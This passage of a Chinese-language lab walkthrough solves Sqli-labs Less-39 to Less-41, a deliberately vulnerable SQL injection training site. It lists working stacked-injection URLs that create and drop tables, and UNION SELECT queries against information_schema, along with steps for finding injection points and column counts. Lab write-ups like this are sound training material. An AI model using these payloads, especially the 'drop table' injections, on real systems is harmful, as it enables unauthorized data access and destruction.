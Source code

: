 **堆叠注入**<br />**创建表**<br />http://www.web.com/sql/Less-39/?id=1;create table sqli39 like users; --+

**查看是否创建成功**<br />http://www.web.com/sql/Less-39/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726104907677.png#crop=0&crop=0&crop=1&crop=1&id=nRGF5&originHeight=144&originWidth=640&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
成功

**删除表**<br />http://www.web.com/sql/Less-39/?id=-1; drop table sqli39;--+

**查看是否成功删除**<br />http://www.web.com/sql/Less-39/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/2020072610502311.png#crop=0&crop=0&crop=1&crop=1&id=fkVVD&originHeight=142&originWidth=558&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**成功**


# Sqli-labs-Less-40
![](https://img-blog.csdnimg.cn/20200726105226619.png#crop=0&crop=0&crop=1&crop=1&id=ynrll&originHeight=78&originWidth=1088&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查找注入点**<br />http://www.web.com/sql/Less-40/?id=1'<br />没有回显<br />**进行注释**<br />http://www.web.com/sql/Less-40/?id=1'--+<br />还是错误，改为?id=1)
http://www.web.com/sql/Less-40/?id=1')--+<br />成功，说明存在注入点<br />![](https://img-blog.csdnimg.cn/20200726105447414.png#crop=0&crop=0&crop=1&crop=1&id=PLT3U&originHeight=115&originWidth=353&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-40/?id=1') order by 3--+<br />使用4时没有回显，使用3时回显正确，说明有三列<br />![](https://img-blog.csdnimg.cn/20200726105525255.png#crop=0&crop=0&crop=1&crop=1&id=w4bQn&originHeight=136&originWidth=394&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-38相似，不同的是Sqli-labs-Less-40没有错误回显**

**堆叠注入**<br />**创建表**<br />http://www.web.com/sql/Less-40/?id=1'); create table sqli40 like users;--+

**查看是否创建成功**<br />http://www.web.com/sql/Less-40/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726110212922.png#crop=0&crop=0&crop=1&crop=1&id=AEsq6&originHeight=138&originWidth=657&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**成功**

**删除表**<br />http://www.web.com/sql/Less-40/?id=-1'); drop table sqli40 ;--+

**查看是否成功删除**<br />http://www.web.com/sql/Less-40/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726110359133.png#crop=0&crop=0&crop=1&crop=1&id=RYsxj&originHeight=132&originWidth=549&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**成功**


# Sqli-labs-Less-41
![](https://img-blog.csdnimg.cn/20200726110610245.png#crop=0&crop=0&crop=1&crop=1&id=oajkB&originHeight=92&originWidth=1050&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查找注入点**<br />使用?id=1'、?id=1')、?id=1'))、?id=1"、?id=1")、?id=1"))
都不正确，尝试不进行包裹<br />http://www.web.com/sql/Less-41/?id=1--+<br />成功，说明存在注入点<br />![](https://img-blog.csdnimg.cn/20200726110957983.png#crop=0&crop=0&crop=1&crop=1&id=qt7WV&originHeight=118&originWidth=316&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
